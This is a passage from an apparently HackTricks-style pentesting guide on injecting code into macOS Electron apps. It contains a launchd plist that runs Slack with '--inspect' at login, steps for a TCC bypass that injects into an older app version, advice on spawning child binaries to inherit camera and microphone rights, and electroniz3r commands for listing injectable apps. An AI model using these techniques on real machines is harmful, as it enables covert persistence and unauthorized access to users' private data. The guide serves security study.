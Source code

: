 ```xml
<dict>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>--inspect</string>
    </array>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## TCC Bypass abusing Older Versions

> [!TIP]
> The TCC daemon from macOS doesn't check the executed version of the application. So if you **cannot inject code in an Electron application** with any of the previous techniques you could download a previous version of the APP and inject code on it as it will still get the TCC privileges (unless Trust Cache prevents it).

## Run non JS Code

The previous techniques will allow you to run **JS code inside the process of the electron application**. However, remember that the **child processes run under the same sandbox profile** as the parent application and **inherit their TCC permissions**.\
Therefore, if you want to abuse entitlements to access the camera or microphone for example, you could just **run another binary from the process**.

## Automatic Injection

- [**electroniz3r**](https://github.com/r3ggi/electroniz3r)

The tool [**electroniz3r**](https://github.com/r3ggi/electroniz3r) can be easily used to **find vulnerable electron applications** installed and inject code on them. This tool will try to use the **`--inspect`** technique:

You need to compile it yourself and can use it like this:

```bash
# Find electron apps
./electroniz3r list-apps

╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
org.whispersystems.signal-desktop            /Applications/Signal.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.neo4j.neo4j-desktop                      /Applications/Neo4j Desktop.app
com.electron.dockerdesktop                   /Applications/Docker.app/Contents/MacOS/Docker Desktop.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.ledger.live                              /Applications/Ledger Live.app
com.postmanlabs.mac                          /Applications/Postman.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
com.hnc.Discord                              /Applications/Discord.app

# Check if an app has vulenrable fuses vulenrable
## It will check it by launching the app with the param "--inspect" and checking if the port opens
```